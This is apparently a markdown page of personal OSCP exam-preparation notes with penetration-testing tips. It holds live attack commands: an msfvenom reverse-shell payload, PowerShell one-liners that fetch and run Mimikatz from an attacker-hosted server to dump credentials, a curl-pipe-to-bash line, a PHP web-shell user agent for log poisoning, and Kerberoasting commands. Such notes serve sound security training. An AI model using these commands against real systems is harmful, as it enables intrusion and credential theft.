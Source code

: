 ```yaml
---
description: Just some rough notes in preparation for the OSCP.
---
```


# OSCP Notes

### Quick Notes

* Transferring a file such as a .doc to a FTP share? Reminder to use `binary` before doing so or else it will upload as ASCII.&#x20;
* If LinPEAS doesn't return anything useful then it is possible you already have the information needed to privilege escalate. Try default passwords, [priv esc with fail2ban](https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/), and other common tricks.
* When enumerating FTP, ensure you run `dir -a` to enumerate any hidden files or directories on the system. You may find l00t!
* Ensure you run FeroxBuster or GoBuster with file extensions identified throughout inital enumeration of the device.
* Always try to login with default passwords and with using the username as a password. For example, if a username has been identiifed as `parzival` try and login with the password `parzival`
* If you have a shell via Netcat on a Windows machine, try using Curl to download a  ps1 to the target and executing it.
  * `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f psh -o meterpreter-64.ps1`
* Metasploit and Meterpreter are only allowed against one machine in the exam so ensure that you are sure before executing. There may be other ways to accomplish what you want (e.g., CrackMapExec, Lsassy, etc).&#x20;
* PowerShell Empire has some great PS1 scripts readily available such as `Invoke-Watson` and `Invoke-MS16032` as examples. These can be accessed at `/usr/share/powershell-empire/empire/server/modules/`
* Unable to get Mimikatz onto a machine? Simply host a http server and execute the following:
  * `powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.10.1:8080/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds`&#x20;
  * `powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.119.164:8080/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -Command lsadump::sam`
* If you are getting the following message `You are not a search engine. Permission denied.` when attempting to browse to robots.txt then set your user agent in Burp to the following:&#x20;
  * `User-Agent: Googlebot/2.1 (+http://www.googlebot.com/bot.html)`
* If a login page default password doesn't work then think of what a lazy admin would use (uppercase and lowercase). CeWL can be used here if you're running out of ideas.
* If there are no writable directories then just pipe LinPEAS (or other tool of choice) directly into bash:
  * `curl 10.10.10.1:8080/linpeas.sh | bash`
* **REMEMBER KISS - Keep It Super Simple**. Several times I have tried to do something overly complicated when the first thing I would have tried would work.
* Oracle SQLi - [This link](http://www.securityidiots.com/Web-Pentest/SQL-Injection/Union-based-Oracle-Injection.html) is beyond useful. Got me out of a situation where I was extremely stuck.&#x20;
* Mimikatz errors? Need to downgrade your version? Use the version availabke at [this link](https://gitlab.com/kalilinux/packages/mimikatz/-/tree/d72fc2cca1df23f60f81bc141095f65a131fd099/).
* If testing for Shellshock on SMTP then I have found[ this exploit ](https://github.com/3mrgnc3/pentest\_old/blob/master/postfix-shellshock-nc.py)to be the most reliable. It requires a valid email address so ensure you run `VRFY` to enumerate a valid email prior to execution.
* If you can access the Apache logs through LFI and observe the 'User Agent' is viewable, we can potentially specify our user agent to PHP code and execute that on the target machine. [This video from John Hammond](https://www.youtube.com/watch?v=u\_uuk7FWWF4) is a great example.
  * Using this we can potentially turn an LFI into RCE. An example user agent would be the following: `User-Agent: <?php system(\$_GET['c']); ?>`
* Log into the SMTP server to identify the version if it is not returned in the Nmap scan. Identifying Postfix means that multiple exploits from Searchsploit may work: `searchsploit postfix`
* You can perform post exploitation activities such as Kerberoasting with a machine account. This may be important if you cannot find another path to exploitation:

`GetUserSPNs.py -request 'DOMAIN/MACHINE$' -dc-ip DC -hashes 'LM:NTLM'`

* PowerView is your best friend when attempting to pivot. Run the following commands to get the lay of the land and perform exploitation activities:

**Get Domain Users**

`Get-NetUser * -Domain corp.local | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset, lastlogontimestamp,accountexpires,admincount,userprincipalname, serviceprincipalname, mail,useraccountcontrol | Export-CSV users.csv`

#### Get Domain Computers

`Get-NetComputer * -Domain corp.local | Select-Object -Property dnshostname,operatingsystem,operatingsystemservicepack,lastlogontimestamp | Export-CSV computers.csv`

#### SPN Ticket Request

`Get-DomainUser * -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | Export-Csv .\ticket.csv -NoTypeInformation`

### Helpful Blogs

* [List of Kerberos attacks with different tooling](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)

### Helpful OSCP Cheatsheets

* [OSCP Enumeration Cheatsheet](https://strongcourage.github.io/2020/05/03/enum.html)
* [iRedTeam Cheatsheet](https://www.ired.team/offensive-security-experiments/offensive-security-cheetsheets)

References While Building my Notes

* [FareedFauzi's Notes](https://fareedfauzi.gitbook.io/oscp-notes/others/active-directory-attack)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/pass-the-hash-with-machine-accounts](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/pass-the-hash-with-machine-accounts)

